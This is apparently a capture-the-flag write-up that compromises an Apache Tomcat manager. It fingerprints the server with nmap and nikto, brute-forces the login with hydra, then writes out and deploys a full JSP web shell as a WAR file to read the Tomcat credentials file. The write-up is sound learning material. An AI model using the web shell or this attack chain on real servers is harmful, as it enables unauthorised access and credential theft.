 # **War of Tomcat** Write Up

**Apache Tomcat** is a open-source web server, provides platform for running Java-based web applications and supports several Java technologies.

**War** (Web Application Archives) is a package format used to distribute a web application. It contains all the components needed to run a web application, such as HTML files, JavaServer Pages (JSPs), servlets, Java classes, libraries (JAR files), and configuration files.

**Tomcat uses WAR** files to deploy web applications. When you deploy a WAR file to Tomcat, it extracts the contents and sets up the web application on the server.

## Web First Look:

![image-20240912003139430](images/53.png)

Tomcat has a management interface that is usually available at :

```
http://10.214.160.13:10007/manager/html
```

![image-20240912003139430](images/54.png)

After curling the html I found this:

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
 <head>
  <title>401 Unauthorized</title>
  <style type="text/css">
    <!--
    BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;font-size:12px;}
    H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;}
    PRE, TT {border: 1px dotted #525D76}
    A {color : black;}A.name {color : black;}
    -->
  </style>
 </head>
 <body>
   <h1>401 Unauthorized</h1>
   <p>
    You are not authorized to view this page. If you have not changed
    any configuration files, please examine the file
    <tt>conf/tomcat-users.xml</tt> in your installation. That
    file must contain the credentials to let you use this webapp.
   </p>
   <p>
    For example, to add the <tt>manager-gui</tt> role to a user named
    <tt>tomcat</tt> with a password of <tt>s3cret</tt>, add the following to the
    config file listed above.
   </p>
<pre>
&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;
</pre>
   <p>
    Note that for Tomcat 7 onwards, the roles required to use the manager
    application were changed from the single <tt>manager</tt> role to the
    following four roles. You will need to assign the role(s) required for
    the functionality you wish to access.
   </p>
    <ul>
      <li><tt>manager-gui</tt> - allows access to the HTML GUI and the status
          pages</li>
      <li><tt>manager-script</tt> - allows access to the text interface and the
          status pages</li>
      <li><tt>manager-jmx</tt> - allows access to the JMX proxy and the status
          pages</li>
      <li><tt>manager-status</tt> - allows access to the status pages only</li>
    </ul>
   <p>
    The HTML interface is protected against CSRF but the text and JMX interfaces
    are not. To maintain the CSRF protection:
   </p>
   <ul>
    <li>Users with the <tt>manager-gui</tt> role should not be granted either
        the <tt>manager-script</tt> or <tt>manager-jmx</tt> roles.</li>
    <li>If the text or jmx interfaces are accessed through a browser (e.g. for
        testing since these interfaces are intended for tools not humans) then
        the browser must be closed afterwards to terminate the session.</li>
   </ul>
   <p>
    For more information - please see the
    <a href="/docs/manager-howto.html">Manager App HOW-TO</a>.
   </p>
 </body>

</html>
```

after attempting to put the username and password **tomcat:s3cret** it is not working, perhaps the problem is because the password might got changed recently.

So the next step was by using the nmap to check the port:

```bash
nmap -sV -p 10007 --script=http-server-header,http-title 10.214.160.13
```

![image-20240912003139430](images/55.png)

here, it just confirms us that the website is using ***Apache Tomcat / Coyote JSP engine 1.1***

After running nikto:

```bash
nikto -h http://10.214.160.13:10007
```

![image-20240912003139430](images/56.png)

After running hydra to brute force the tomcat:

```bash
hydra -L tomcat-users.txt -P tomcat-password.txt http-get://10.214.160.13:10007/manager/html
```



![image-20240912003139430](images/57.png)

turns out it is ***tomcat:tomcat***

![image-20240912003139430](images/61.png)

and now we are inside the Tomcat Web Application Manager:

now lets create a **WAR(Web Application Archive)** and deploy it to the server,

First I create the **.jsp** file: (.jsp is a java file to be embed to html page to create dynamic content or display)

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

This code is intended to inject a Web Shell Code, but first we need to convert it to a **WAR** file using the jar command,

![image-20240912003139430](images/58.png)

We now have the **webshell.war** file, next we uploaded in the web application manager

![image-20240912003139430](images/59.png)

After uploading, let's directly access the url 

```
http://10.214.160.13:10007/webshell/
```

then we can access the webshell we just injected

by applying the command 

```
cat conf/tomcat-users.xml
```

we can access where the flag is hidden:

![image-20240912003139430](images/60.png)

After further inspection I found the flag inside the inspect source tab hidden in the role tag

Flag : **AAA{t0mcat_wiTh_manager_1s_dangerous_qq_GROUP_~~}  ~~ is hidden for privacy purpose**

